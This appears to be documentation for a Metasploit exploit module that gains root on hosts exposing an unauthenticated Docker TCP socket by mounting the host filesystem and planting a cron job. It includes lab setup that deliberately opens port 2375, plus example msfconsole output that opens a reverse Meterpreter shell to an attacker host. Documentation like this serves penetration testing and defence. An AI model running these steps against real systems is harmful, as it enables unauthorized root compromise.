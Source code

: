 # Vulnerable Application
Utilizing Docker via unprotected tcp socket (2375/tcp, maybe 2376/tcp
with tls but without tls-auth), an attacker can create a Docker
container with the '/' path mounted with read/write permissions on the
host server that is running the Docker container. As the Docker 
container executes command as uid 0 it is honored by the host operating
system allowing the attacker to edit/create files owned by root. This
exploit abuses this to creates a cron job in the '/etc/cron.d/' path of
the host server.

The Docker image should exist on the target system or be a valid image
from hub.docker.com.

## Docker Engine
By default, Docker runs via a non-networked unix socket. It can also
optionally communicate using a tcp socket.

> Warning: Changing the default docker daemon binding to a TCP port or
Unix docker user group will increase your security risks by allowing
non-root users to gain root access on the host. Make sure you control
access to docker. If you are binding to a TCP port, anyone with access
to that port has full Docker access; so it is not advisable on an open
network. -- [from docs.docker.com][1]

This module was tested with Debian 9 and CentOS 7 as the host operating
system and with Docker CE 17.06.0-ce and Docker Engine 1.13.1.

### Install Debian 9
First [install Debian 9][2] with default task selection. This includes
the "*standard system utilities*".

### Install Docker
Then install a supported version of [Docker on Debian system][3].

```bash
# TL;DR
apt-get remove docker docker-engine
apt-get install apt-transport-https ca-certificates curl gnupg2 software-properties-common
curl -fsSL https://download.docker.com/linux/debian/gpg | apt-key add -
apt-key fingerprint 0EBFCD88
# Verify that the key ID is 9DC8 5822 9FC7 DD38 854A E2D8 8D81 803C 0EBF CD88.
add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/debian $(lsb_release -cs) stable"
apt-get update
apt-get install docker-ce
docker run hello-world
```

### Activate unprotected tcp socket
Once Docker is installed, customize the Docker daemon options and add
the tcp socket `-H tcp://0.0.0.0:2375` option. On Debian override the
settings from `/lib/systemd/system/docker.service` with a new file
`/etc/systemd/system/docker.service`.

Further information: [docker systemd][4] and [docker daemon options][5]. 

```bash
# TL;DR
echo "[Service]
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375" | tee /etc/systemd/system/docker.service
systemctl daemon-reload
systemctl restart docker
curl http://127.0.0.1:2375/_ping ; echo
OK
```

### Mitigation

[Disable][5] or [protect][6] the Docker tcp socket.

# Exploitation
This module is designed for the attacker to leverage, creation of a
Docker container with out authentication through the Docker tcp socket
to gain root access to the hosting server of the Docker container.

## Options
- DOCKERIMAGE is the locally or from hub.docker.com available image you are wanting to have Docker to deploy for this exploit.
- CONTAINER_ID if you want to have a human readable name for your container, else it will be randomly generated

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/docker_daemon_tcp
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a Docker container and it successfully runs
- [ ] After a minute a session should be opened from the Docker server

## Example Output
```
msf > use exploit/linux/http/docker_daemon_tcp
msf exploit(docker_daemon_tcp) > set RHOST 192.168.66.23
RHOST => 192.168.66.23
msf exploit(docker_daemon_tcp) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf exploit(docker_daemon_tcp) > set LHOST 192.168.66.10
LHOST => 192.168.66.10
msf exploit(docker_daemon_tcp) > set VERBOSE true
VERBOSE => true
msf exploit(docker_daemon_tcp) > check
[+] 192.168.66.23:2375 The target is vulnerable.
msf exploit(docker_daemon_tcp) > run

[*] Started reverse TCP handler on 192.168.66.10:4444
[*] Check if images exist on the target host
[*] Image is not available on the target host
[*] Trying to pulling image from docker registry, this may take a while
[*] Setting container json request variables
[*] Creating the docker container command
[*] The docker container is created, waiting for deploy
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Waiting until the docker container stopped
[*] The docker container has been stopped, now trying to remove it
[*] Sending stage (40411 bytes) to 192.168.66.23
[*] Meterpreter session 1 opened (192.168.66.10:4444 -> 192.168.66.23:35050) at 2017-07-25 14:03:02 +0200
[+] Deleted /etc/cron.d/lVoepNpy
[+] Deleted /tmp/poasDIuZ


meterpreter > sysinfo
Computer        : debian
OS              : Linux 4.9.0-3-amd64 #1 SMP Debian 4.9.30-2+deb9u2 (2017-06-26)
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```

[1]:https://docs.docker.com/engine/reference/commandline/dockerd/#bind-docker-to-another-hostport-or-a-unix-socket
[2]:https://www.debian.org/releases/stretch/amd64/index.html.en
[3]:https://docs.docker.com/engine/installation/linux/docker-ce/debian/
[4]:https://docs.docker.com/engine/admin/systemd/
[5]:https://docs.docker.com/engine/reference/commandline/dockerd/#options
[6]:https://docs.docker.com/engine/security/https/
